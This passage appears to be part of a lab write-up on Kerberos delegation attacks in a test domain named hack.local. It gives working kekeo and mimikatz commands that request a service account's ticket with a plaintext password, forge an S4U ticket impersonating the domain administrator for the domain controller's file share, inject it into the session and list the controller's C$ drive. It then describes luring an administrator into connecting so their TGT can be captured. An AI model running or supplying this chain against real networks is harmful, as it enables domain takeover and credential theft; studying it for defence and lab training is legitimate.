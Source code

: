 ```

```powershell
# Construct the tickets for the UDUser service account
kekeo.exe "tgt::ask /user:UDUser /domain:hack.local /password:H3rmesk1t@2023 /ticket:UDUser.kirbi" "exit"

# Use the UDUser ticket that you just forged, and apply for CIFS service tickets from the domain server.
kekeo.exe "Tgs::s4u /tgt:TGT_UDUser@HACK.LOCAL_krbtgt~hack.local@HACK.LOCAL.kirbi /user:administrator@hack.local /service:cifs/DC.hack.local" "exit"

# Use mimikatz to inject the ticket into the current session.
mimikatz.exe "kerberos::ptt TGS_administrator@hack.local@HACK.LOCAL_UDUser@HACK.LOCAL.kirbi" "exit"

# Access the target shared disk
dir \\DC.hack.local\C$
```

![](./images/7.png#pic_center)

#### Induce domain administrators to access the machine

When the domain administrator uses remote access commands such as `net use` to simulate the domain administrator accessing the `WIN-WEB` host, the host that has been set up with a non-binding delegation can capture the `TGT` of the domain administrator.
